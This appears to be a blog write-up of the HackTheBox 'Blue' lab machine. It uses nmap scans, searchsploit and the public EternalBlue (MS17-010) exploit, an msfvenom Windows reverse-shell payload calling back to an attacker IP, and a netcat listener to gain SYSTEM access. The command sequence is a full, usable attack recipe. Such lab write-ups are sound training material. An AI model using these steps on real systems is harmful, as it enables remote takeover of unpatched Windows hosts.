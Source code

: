 ```yaml
---
title: HackTheBox - Blue
date: 2020-09-20 19:01:00 +/- 0000
categories: [HackTheBox,Easy]
tags: [blue,smb,msfvenom,eternalblue]
author: Connor Weeks-Pearson
image: /assets/img/Icons/Blue/Blue.png
---
```


Blue is the third hackthebox machine i have completed but is the first time without using metasploit. This machine exploits SMB using the famous SMB MS17-010 vulnerability Eternal Blue. 

## Summary

- Port Scan using Nmap
- Searchsploit MS17-010 non-metasploit exploits
- msfvenom to create a non-meterpreter shell.
- netcat listener

---

***Machine IP: 10.10.10.40***

## Recon and Information Gathering
### Port Scan with Nmap

As always, we first begin with a simple nmap port scan to discover any open ports on this machine.

`nmap -n -sV -p- -T 5 -Pn 10.10.10.40`

<pre>
PORT      STATE    SERVICE      VERSION
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open     msrpc        Microsoft Windows RPC
49153/tcp open     msrpc        Microsoft Windows RPC
49154/tcp open     msrpc        Microsoft Windows RPC
49155/tcp open     msrpc        Microsoft Windows RPC
49156/tcp open     msrpc        Microsoft Windows RPC
49157/tcp open     msrpc        Microsoft Windows RPC
52097/tcp filtered unknown
</pre>

we can see ports 135, 139 and 445 are open. As well as 6 ports for msrpc.

#### SMB

As we have SMB on port 445, lets enumerate further.

`nmap -n -A -p 445 -T 5 -Pn 10.10.10.40`

<pre>
PORT    STATE SERVICE      VERSION
445/tcp open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -13m39s, deviation: 34m35s, median: 6m17s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2020-09-14T21:54:17+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-09-14T20:54:16
|_  start_date: 2020-09-14T20:16:58
</pre>

Knowing this could be exploitable, lets run Nmaps SMB vulnerability scanner against the port 445.

`nmap --script=*vuln-smb* -p 445 10.10.10.40`

<pre>

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
 </pre>

This machine is vulnerable to Eternal Blue, which means remote code execution!

## Exploiting without Metasploit

Lets use searchsploit to find find a non-metasploit exploit in the database.

`searchsploit --id MS17-010`

<pre>
kali@kali:~$ searchsploit --id ms17-010
------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                    |  EDB-ID
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Microsoft Windows - 'EternalRomance'/'EternalSynergy'/'EternalChampion' SMB Remote Code Execution (Metasploit) (M | 43970
Microsoft Windows - SMB Remote Code Execution Scanner (MS17-010) (Metasploit)                                     | 41891
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)                                  | 42031
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue' SMB Remote Code Execution (MS17-010)              | 42315
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remote Code Execution (MS17-010)                        | 42030
Microsoft Windows Server 2008 R2 (x64) - 'SrvOs2FeaToNt' SMB Remote Code Execution (MS17-010)                     | 41987
------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

</pre>

The machine is running Windows 7, so lets go ahead and use #42315 by cloning it to our working directory using `searchsploit -m 42315` and then examining the source code. 

The source code requires three things:

1. Download mysmb.py
2. Using MSFVenom to generate a reverse shell payload. This is indicated by:   
    <pre> Note: there are many methods to get shell over SMB admin session. a simple method to get shell (but easily to be detected by AV) is executing binary generated by "msfvenom -f exe-service ..."`</pre>
3. If possible, provide login credentials and point to the msfvenom payload.

### Preparing

First thing to do is clone the github repositoryand then rename it:

`wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py mv 42315.py.1 mysmb.py`

Next, create the msfvenom reverse shell executable payload.

<pre>
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.27 LPORT=4444 > eternal-blue.exe
</pre>

Lastly, as seen in our Nmap scan earlier, SMB supports the user 'guest', so enter the guest credentials into the exploit

![credentials](/assets/img/Icons/Blue/guest.png)

Also we'll add the executable's location to the exploit file to send it and execute it.

![](/assets/img/Icons/Blue/location.png)

And lastly, I will set up a netcat listener on my host machine.

`nc -nvlp 4444`

### Exploiting

Run the python script `python 42315.py 10.10.10.40` and check the netcat listener.

![netcat](/assets/img/Icons/Blue/whoami.png)

We have shell with system access!

### User

![user](/assets/img/Icons/Blue/user.png)

### Root

![root](/assets/img/Icons/Blue/root.png)

## End Notes

I did have some issues when exploiting this machine, but this was due to my own silly errors, such as missing out an ' in service_exec() and putting the file location as /root/.

This is the first machine i have completed without using metasploit, due to the OSCP not allowing it, likewise msfvenom was used due to meterpretor not being allowed either.
